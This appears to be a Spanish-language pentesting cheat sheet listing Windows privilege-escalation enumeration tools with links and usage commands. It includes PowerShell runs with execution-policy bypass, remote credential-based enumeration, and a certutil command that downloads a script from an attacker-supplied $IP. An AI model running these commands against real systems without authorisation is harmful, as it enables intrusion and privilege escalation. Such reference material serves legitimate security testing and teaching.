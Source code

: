 ```bash
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps1
```

### BeRoot

[BeRoot](https://github.com/AlessandroZ/BeRoot/tree/master/Windows/BeRoot/beroot)

### Windows Exploit Suggester

[Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```bash
./windows-exploit-suggester.py --update

./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo systeminfo.txt
```

Donde systeminfo.txt es la salida del comando de windows systeminfo pegados a un archivo .txt.


### Windows Enum y exploit

[Windows Privesc check](https://github.com/pentestmonkey/windows-privesc-check)

[Recopilacion de exploits](https://github.com/abatchy17/WindowsExploits)

[WindowsEnum](https://github.com/absolomb/WindowsEnum)

### SeatBelt

[SeatBelt](https://github.com/GhostPack/Seatbelt)

```bash
Seatbelt.exe -group=all -full

Seatbelt.exe -group=system -outputfile="C:\Temp\system.txt"

Seatbelt.exe -group=remote -computername=dc.theshire.local -computername=192.168.230.209 -username=THESHIRE\sam -password="yum \"po-ta-toes\""
```

Binario ya compilados [aqui](https://github.com/Marshall-Hallenbeck/compiled_binaries)

### PowerLess

[PowerLess](https://github.com/M4ximuss/Powerless)

```bash
certutil.exe -urlcache -split -f "http://$IP/Powerless.bat" Powerless.bat
```

### JAWS

[JAWS](https://github.com/411Hall/JAWS)

```bash
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt

#CMD

CMD C:\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1

```
